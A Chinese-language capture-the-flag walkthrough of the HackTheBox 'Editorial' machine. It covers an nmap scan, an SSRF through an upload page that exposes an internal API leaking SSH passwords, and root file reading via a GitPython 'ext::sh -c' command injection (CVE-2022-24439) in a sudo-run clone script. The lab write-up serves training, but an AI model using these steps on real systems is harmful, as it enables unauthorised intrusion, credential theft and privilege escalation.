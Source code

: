 # 端口

```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.20   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-01 03:45 EDT
Nmap scan report for editorial.htb (10.10.11.20)
Host is up (0.47s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0dedb29ce253fbd4c8c1196e7580d864 (ECDSA)
|_  256 0fb9a7510e00d57b5b7c5fbf2bed53a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/1%OT=22%CT=1%CU=44140%PV=Y%DS=2%DC=T%G=Y%TM=66825EC9
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=107%GCD=1%ISR=107%TI=Z%CI=Z%TS=B)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3
OS:=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   549.04 ms 10.10.16.1
2   256.72 ms editorial.htb (10.10.11.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.13 seconds

```

# SSRF

一个上传页面
![](Editorial_files/1.jpg)

fuzzing

![](Editorial_files/2.jpg)

![](Editorial_files/3.jpg)

设置payload
![](Editorial_files/4.jpg)

5000端口
![](Editorial_files/5.jpg)


测试5000端口
![](Editorial_files/8.jpg)

返回：
![](Editorial_files/9.jpg)

得到一个地址：
```
static/uploads/fe4cd07b-e570-4971-9d6e-388b62150947
```
访问上面的地址，返回一串json
![](Editorial_files/10.jpg)

暴露出一堆api
```
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

访问其中一个api

![](Editorial_files/6.jpg)


访问获取到的地址：
![](Editorial_files/7.jpg)

得到一段文字：
```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```


得到一个用户凭据：```dev: dev080217_devAPI!@```

可以登录ssh
```
┌──(root㉿kali)-[~/htb/Editorial]
└─# ssh dev@10.10.11.20         
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Jul  1 10:19:28 AM UTC 2024

  System load:  0.08              Processes:             226
  Usage of /:   60.3% of 6.35GB   Users logged in:       0
  Memory usage: 12%               IPv4 address for eth0: 10.10.11.20
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cat user.txt 
bead65f1153bf57312d182b416fd0050
dev@editorial:~$ 

```


# 提权

找到另外一个密码

![](Editorial_files/11.jpg)


```prod：080217_Producti0n_2023!@```

切换用户后，有sudo特权

![](Editorial_files/12.jpg)

```
prod@editorial:/home/dev/apps/app_api$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:/home/dev/apps/app_api$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])

```

根据[CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858?source=post_page-----0fba80ca64e8--------------------------------)


利用GitPython，可以把root.txt复制出来

由于用户输入验证不当，这个包的受影响版本容易受到远程代码执行(Remote Code Execution，RCE)的攻击，这使得有可能将恶意制作的远程 URL 注入到克隆命令中。利用这个漏洞是可能的，因为该库在没有对输入参数进行足够清除的情况下对 git 进行外部调用

```
prod@editorial:~$ echo "" > root.txt
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ ls
root.txt
prod@editorial:~$ cat root.txt 
347b4e4e9fc4e0496157f0d4fd5aedf5
prod@editorial:~$ 

```